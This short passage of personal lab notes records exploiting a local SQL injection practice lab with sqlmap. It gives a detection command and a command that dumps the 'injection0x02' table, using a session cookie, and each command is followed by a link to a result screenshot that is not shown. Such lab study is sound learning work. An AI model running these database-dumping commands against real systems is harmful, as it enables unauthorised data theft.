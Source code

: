 Exploitation with sqlmap:
```bash
sqlmap -u http://localhost/labs/i0x02.php --cookie="session=6967cabefd763ac1a1a88e11159957db" --level 2
```

Result:
![[Pasted image 20240326114353.png]]

Dump database tables:
```bash
sqlmap -u http://localhost/labs/i0x02.php --cookie="session=6967cabefd763ac1a1a88e11159957db" --level 2 --dump -T injection0x02
```

Result:
![[Pasted image 20240326114719.png]]